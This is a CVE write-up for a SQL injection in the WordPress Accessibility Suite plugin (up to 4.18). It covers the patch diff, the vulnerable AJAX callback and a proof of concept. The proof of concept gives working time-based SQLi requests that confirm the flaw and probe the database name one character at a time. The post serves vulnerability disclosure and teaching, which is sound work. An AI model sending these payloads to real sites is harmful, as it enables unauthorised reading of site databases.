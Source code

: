 ```yaml
---
title: CVE-2025-32650 Analysis & POC
description: Security Vulnerability in WordPress Accessibility Suite Plugin.
date: 2025-09-26 10:36:00 +0700
categories: [CVE Analyst]
tags: [analyst, plugin, sqli]
images: ["app.png"]
featuredImage: "app.png"

lightgallery: true

toc:
  auto: false
---
```


<!--more-->

The vulnerability occurs in the **Accessibility Suite** plugin for WordPress before version **4.19**.
This allows an attacker to directly interact with the database, potentially stealing sensitive information.

* **CVE ID**: [CVE-2025-32650](https://www.cve.org/CVERecord?id=CVE-2025-32650)
* **Product**: [WordPress Accessibility Suite Plugin](https://wordpress.org/plugins/online-accessibility/)
* **Vulnerability Type**: SQL Injection
* **Affected Versions**: <= 4.18
* **CVSS Severity**: High (8.5)
* **Required Privilege**: Subscriber

## Requirements

* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/2025-08-21-wordpress-local-and-debugging/).
* **Accessibility Suite**:  v4.18 (vulnerable) and v4.19 (patched)
* **Diff tool**: **meld** or any other comparison tool to spot version differences

## Analysis

The plugin failed to properly typecast user input. Although it used `prepare()` to prevent SQLi, the implementation was **incorrect**, leaving the vulnerability exploitable.

### Patch Diff

Use any diff tool to compare the vulnerable and patched versions.
A key difference appears in **includes/classes/Helper.php**.

```php
static function save_false_positive($scan_id, $issue_id){
    // other logic
    if(! is_admin()) {
        return '';
    }
    // other logic
    $list = json_decode(
        $wpdb->get_results($wpdb->prepare("SELECT list FROM  $table_name WHERE scan_id = $scan_id"))[0]->list // phpcs:ignore
    );
}
```

The patched version passes `$scan_id` as a parameter to the query instead of directly concatenating it.

```php
static function save_false_positive($scan_id, $issue_id){
    // other logic
    if(! is_admin()) {
        return '';
    }
    // other logic
    $scan_id = absint($scan_id); // Ensure scan_id is a positive integer
    
    if (!$scan_id) {
        return ["status" => "failed", "msg" => "Invalid scan ID"];
    }
    
    // Get list using properly prepared query
    $query = $wpdb->prepare(
        "SELECT list FROM %i WHERE scan_id = %d",
        $table_name,
        $scan_id
    );
    
    $result = $wpdb->get_results($query);
}
```

{{< figure src="patch_diff.png" caption="Patch Diff" alt="Patch Diff" >}}

### How it works

The vulnerability resides in the static function `save_false_positive` of class `Helper` in **includes/classes/Helper.php**.
To locate where it’s called, search for `save_false_positive` in the plugin directory.

{{< figure src="search_1.png" caption="Search Function Call" alt="Search for save_false_positive" >}}

👉 The `save_false_positive` function is called as a **callback** by the action hook `wp_ajax_ONLINE_ADAv4/save_false_positive`.

When a **POST** request is sent to `/wp-admin/admin-ajax.php` with
`action=ONLINE_ADAv4/save_false_positive`, the callback is executed.
It requires two POST parameters: `issue_id` and `scan_id`.
If they’re missing, the app returns:

```json
{"status":"failed","msg":"Did not receive the scan ID or the issue ID"}
```

The function checks if the user has admin privileges; if not, it returns an empty string.

```php
if(! is_admin()) {
    return '';
}
```

Then, the parameters are directly concatenated into the vulnerable SQL query.

## Exploit

### Detecting the SQLi

Send a **POST request** containing an SQLi payload.
Since it only requires an authenticated user with access to `/wp-admin/`, we can use a **subscriber** role — the lowest privilege in WordPress.
Higher roles inherit lower privileges, so this confirms the CVE’s description.

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
...
Cookie: cookie_here

action=ONLINE_ADAv4/save_false_positive&issue_id=1&scan_id=1 UNION SELECT SLEEP(5)
```

The resulting SQL query becomes:

```sql
SELECT list FROM wp_oada_false_positives WHERE scan_id = 1 UNION SELECT SLEEP(5)
```

{{< figure src="time_response.png" caption="Time-based SQLi Response" alt="Time-based response" >}}

👉 The delayed response confirms that the SQLi payload works.

**Alternative techniques for empty tables:**

* **UNION** — works even when the base query returns no rows, but you must find the correct column count.
* **Subquery**:

  * **In WHERE clause:** MySQL may optimize it away if results are predictable.
  * **In FROM clause:** The subquery executes first to create a temporary table, ensuring the injected query runs.

{{< figure src="https://www.kdnuggets.com/wp-content/uploads/ferrer_essential_guide_sql_execution_order_6.png" caption="SQL Execution Order Diagram" alt="SQL Execution Order" >}}

### Extracting the First Letter of the Database Name

To fully dump data, we first confirm that SQLi allows reading at least **one character** from the database name.

Use this payload:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
...
Cookie: cookie_here

action=ONLINE_ADAv4/save_false_positive&issue_id=1&scan_id=1 UNION SELECT IF(SUBSTRING(SCHEMA(),1,1)=0x77, SLEEP(5), 1)
```

The query uses `SUBSTRING()` to extract the first character of the database name.
If it equals `'w'` (`0x77` in hex), it triggers `SLEEP(5)`.

Since `scan_id` is escaped, hex encoding ensures payload integrity.

👉 Based on the delayed response — the first character **is indeed `w`**.

## Conclusion

The vulnerability **CVE-2025-32650** in the **Accessibility Suite** WordPress plugin (before version 4.19) stems from **improper use of `$wpdb->prepare()`**, leading to a SQL Injection.

The official patch correctly uses `$wpdb->prepare()`, ensuring safe handling of user input.

**Key takeaways:**

* Always use `$wpdb->prepare()` correctly when interacting with the WordPress database.
* Keep plugins updated and perform regular security audits to prevent exploitation.

## References

* [SQL Injection Cheat Sheet – PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)
* [WordPress Accessibility Suite Plugin <= 4.18 is vulnerable to SQL Injection](https://wordpress.org/plugins/online-accessibility/)
